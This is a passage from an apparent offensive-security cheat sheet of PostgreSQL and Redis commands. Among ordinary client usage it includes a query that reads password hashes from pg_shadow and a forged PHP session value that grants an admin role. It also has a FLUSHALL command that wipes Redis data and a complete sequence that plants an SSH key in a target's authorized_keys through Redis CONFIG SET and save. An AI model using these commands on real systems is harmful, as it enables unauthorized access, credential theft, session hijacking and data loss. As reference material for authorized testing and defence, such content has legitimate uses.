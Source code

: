 #### PostgreSQL

```c
psql
psql -h <LHOST> -U <USERNAME> -c "<COMMAND>;"
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
```

### Common Commands

```c
postgres=# \list                     // list all databases
postgres=# \c                        // use database
postgres=# \c <DATABASE>             // use specific database
postgres=# \s                        // command history
postgres=# \q                        // quit
<DATABASE>=# \dt                     // list tables from current schema
<DATABASE>=# \dt *.*                 // list tables from all schema
<DATABASE>=# \du                     // list users roles
<DATABASE>=# \du+                    // list users roles
<DATABASE>=# SELECT user;            // get current user
<DATABASE>=# TABLE <TABLE>;          // select table
<DATABASE>=# SELECT * FROM users;    // select everything from users table
<DATABASE>=# SHOW rds.extensions;    // list installed extensions
<DATABASE>=# SELECT usename, passwd from pg_shadow;    // read credentials
```

#### Redis

```c
> AUTH <PASSWORD>
> AUTH <USERNAME> <PASSWORD>
> INFO SERVER
> INFO keyspace
> CONFIG GET *
> SELECT <NUMBER>
> KEYS *
> HSET       // set value if a field within a hash data structure
> HGET       // retrieves a field and his value from a hash data structure
> HKEYS      // retrieves all field names from a hash data structure
> HGETALL    // retrieves all fields and values from a hash data structure
> GET PHPREDIS_SESSION:2a9mbvnjgd6i2qeqcubgdv8n4b
> SET PHPREDIS_SESSION:2a9mbvnjgd6i2qeqcubgdv8n4b "username|s:8:\"<USERNAME>\";role|s:5:\"admin\";auth|s:4:\"True\";" # the value "s:8" has to match the length of the username
```

##### Enter own SSH Key

```c
redis-cli -h <RHOST>
echo "FLUSHALL" | redis-cli -h <RHOST>
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /PATH/TO/FILE/<FILE>.txt
cat /PATH/TO/FILE/<FILE>.txt | redis-cli -h <RHOST> -x set s-key
<RHOST>:6379> get s-key
<RHOST>:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis"
<RHOST>:6379> CONFIG SET dir /var/lib/redis/.ssh
OK
<RHOST>:6379> CONFIG SET dbfilename authorized_keys
OK
<RHOST>:6379> CONFIG GET dbfilename
1) "dbfilename"
2) "authorized_keys"
<RHOST>:6379> save
```